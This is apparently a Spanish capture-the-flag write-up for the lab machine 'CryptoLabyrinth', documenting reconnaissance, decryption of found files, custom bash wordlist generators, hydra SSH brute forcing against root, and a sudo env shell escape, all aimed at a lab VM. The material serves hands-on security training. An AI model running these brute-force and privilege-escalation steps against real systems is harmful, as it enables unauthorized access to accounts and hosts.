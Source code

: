 ```yaml
---
description: >-
  ✍️ Autor: beafn28🔍 Dificultad: Fácil📅 Fecha de creación: 25/10/2024 🖥️The
  Hacker Labs
---
```


# CryptoLabyrinth

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.82
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/image (17) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.82
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.82
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos mencione una pista y descubrimos la página por defecto de **Apache**.

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando el código fuente nos encontramos una cadena que podría ser una contraseña.

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://192.168.1.82/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Descubrimos un directorio oculto llamado `/hidden` por lo que indagamos qué contenido habrá.

Observamos varios archivos por lo que nos los descargamos e indagaremos más a fondo pero tiene pinta que hay trata de criptografía.

```
wget -r -np -nH --cut-dirs=2 --reject "index.html*" http://192.168.1.82/hidden/
```

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

<pre class="language-bash"><code class="lang-bash"><strong>openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -iter 10000
</strong></code></pre>

```
openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -pbkdf2
```

Descifra el archivo `alice_aes.enc` utilizando AES-256-CBC con la clave `supercomplexkey!`,y guarda el resultado en el archivo `alice_password.txt`. La opción de iteración asegura que el proceso de derivación de la clave sea más seguro al hacerlo más difícil de atacar por fuerza bruta.

> Nota: la clave se encuentra en el archivo numeros\_suerte.txt

Hemos descubierto de **alice** que es **superSecurePassword!**

Vamos a descubrir las credenciales del usuario **bob**, al parecer hay varios hashes por lo que los vamos a crackear.

Nos aseguramos de tener todos los hashes de las contraseñas de Bob en un solo archivo. Combinamos los hashes en un único archivo de texto usando el siguiente comando:

```bash
cat bob_password*.hash > bob_passwords.hash
```

Desciframos estos hashes y se nos proporciona 4 contraseñas y al probar vemos que no son. Hay un hash que falta por lo que creamos un diccionario con la cadena vista en el código fuente.

```bash
#!/bin/bash

# Verificar si se proporcionó una palabra
if [ "$#" -ne 1 ]; then
    echo "Uso: $0 <palabra>"
    exit 1
fi

# Palabra proporcionada por el usuario
palabra="$1"

# Eliminar los últimos dos asteriscos (si existen)
palabra_sin_asteriscos="${palabra//\*/}"

# Definir los caracteres alfanuméricos (mayúsculas, minúsculas y dígitos)
caracteres="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"

# Crear un archivo de salida
archivo_salida="combinaciones.txt"
> "$archivo_salida"  # Vaciar el archivo si ya existe

# Generar combinaciones con el comando seq y expandiendo directamente los caracteres
for i in $(seq 0 $((${#caracteres}-1))); do
    for j in $(seq 0 $((${#caracteres}-1))); do
        # Concatenar la palabra sin asteriscos con los caracteres generados
        echo "${palabra_sin_asteriscos}${caracteres:$i:1}${caracteres:$j:1}" >> "$archivo_salida"
    done
done

echo "Combinaciones generadas y guardadas en $archivo_salida"

```

```bash
./rompe.sh "2LWxmDsW0**"
```

<figure><img src="../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos la fuerza bruta al usuario **bob** con las combinaciones generadas anteriormente.

<figure><img src="../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tras haber obtenido las credenciales, iniciamos sesión con **bob**.

```bash
ssh bob@192.168.1.82
```

<figure><img src="../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Escalada de privilegios con `env` (Bob)**

El binario `/usr/bin/env` puede ser utilizado para escalar privilegios cuando tiene permisos de sudo sin contraseña pero con el usuario **alice**. A continuación te muestro cómo podrías hacerlo siguiendo los pasos proporcionados por **GTFObins**.

**Comando de GTFObins (env) para obtener una shell de root:**

```bash
sudo -u alice /usr/bin/env /bin/sh
```

Mejoramos la TTY para trabajar en alice.

<figure><img src="../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando entre los directorios encontramos en el directorio `/mnt` un archivo secreto.

<figure><img src="../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Creamos un diccionario como anteriormente para descifrar la contraseña correcta.

```bash
#!/bin/bash

# Verificar si se proporcionó una palabra
if [ "$#" -ne 1 ]; then
    echo "Uso: $0 <palabra>"
    exit 1
fi

# Palabra proporcionada por el usuario
palabra="$1"

# Eliminar los asteriscos de la palabra
palabra_sin_asteriscos="${palabra//\*/}"

# Definir los caracteres alfanuméricos (mayúsculas, minúsculas y dígitos)
caracteres="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"

# Crear un archivo de salida
archivo_salida="combinaciones.txt"
> "$archivo_salida"  # Vaciar el archivo si ya existe

# Obtener la longitud de la palabra sin asteriscos
longitud=${#palabra_sin_asteriscos}

# Generar todas las combinaciones de 2 caracteres
for ((i = 0; i < ${#caracteres}; i++)); do
    for ((j = 0; j < ${#caracteres}; j++)); do
        # Insertar los caracteres en las posiciones deseadas
        combinacion="${palabra_sin_asteriscos:0:4}${caracteres:i:1}${palabra_sin_asteriscos:4:5}${caracteres:j:1}"
        # Escribir en el archivo
        echo "$combinacion" >> "$archivo_salida"
    done
done

echo "Combinaciones generadas y guardadas en $archivo_salida"

```

<figure><img src="../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos fuerza bruta para conseguir la contraseña completa.

```bash
hydra -l root -P combinaciones.txt ssh://192.168.1.82
```

Obtenemos la contraseña completa que es **`2LWx9DsW0A3`**.

<figure><img src="../.gitbook/assets/Captura de pantalla 2024-10-26 172442.png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que ahora encontraremos la bandera en sus directorios.

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
